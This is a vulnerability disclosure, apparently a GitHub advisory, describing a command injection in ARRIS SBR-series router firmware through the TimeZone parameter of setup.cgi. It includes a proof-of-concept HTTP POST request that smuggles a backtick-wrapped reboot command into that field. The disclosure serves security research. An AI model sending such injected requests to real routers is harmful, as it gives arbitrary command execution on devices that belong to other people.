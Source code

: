 # ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `ntp` function, `TimeZone` is directly passed by the attacker, so we can control the `TimeZone` to attack the OS.

As you can see here, the input has not been checked.And then,call the function `scnvram_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc` binary:

As you can see here, in `sub_1666C` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on SBR-AC1900P product



## PoC

We set `TimeZone` as **%60%2Fusr%2Fsbin%2Freboot%60** , The meaning of this command is **`/usr/sbin/reboot`**，and the router will excute it,such as:

```http
POST /setup.cgi?id=37707b3e HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/Timezone.htm
Cookie: RebootType=1; PrimaryRadio_backup=0; PrimaryRadio=0
Upgrade-Insecure-Requests: 1

TimeZone=%60%2Fusr%2Fsbin%2Freboot%60&DaylightSaving=0&this_file=Timezone.htm&next_file=Timezone.htm
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

